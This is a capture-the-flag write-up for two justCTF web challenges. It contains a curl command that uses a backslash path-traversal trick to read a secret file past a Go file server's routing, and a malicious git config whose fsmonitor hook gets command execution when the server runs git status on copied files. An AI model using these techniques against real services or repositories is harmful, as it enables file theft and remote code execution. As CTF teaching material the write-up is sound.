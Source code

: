 ## GoBucket(18 solves)

The core code of this challenge is as follows:

``` go
r.HandleFunc("/files/{bucketId}/{filename}", handleBucket)

bucketPath := filepath.Join("./buckets/", bucketId)
// [...]
filePath := filepath.Join(bucketPath, filename)
```

After matching the URL to the `bucketId` and `filename`, concatenate the path and get the file. Our goal is the `buckets/secret_file` file.

The solution is:

```
curl --path-as-is 'http://gobucket.web.jctf.pro/files/\/secret_file'
```

From the discussion, it seems that golang does not turn `/\/` into `///` when processing URL matching, so `\` becomes a parameter, and when constructing a filepath, it can potentially be dangerous as it allows you to skip/escape a directory.

## gitara(12 solves)

The code for this challenge is as follows:

```
 <?php

if (!isset($_POST['domain']) || preg_match('/[^a-z0-9.-]/ims', $_POST['domain']) !== 0) {
    highlight_file(__FILE__);
} else {
    $dir = '/tmp/gitara'.rand();
    mkdir($dir);
    system(" \
cd $dir && \
timeout 2s sshpass -phunter2 scp -o StrictHostKeyChecking=no 'justctf-gitara@$_POST[domain]:*' . && \
timeout 1m git status; \
rm -rf $dir");
}
```

The goal is actually quite clear: the chall server will use scp to copy files from your server and then execute `git status`, so you need to use some of git's features to achieve RCE.

At the time, a teammate posted this config:

```
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
    fsmonitor = "echo \"Pwned as $(id)\">&2; false"
```
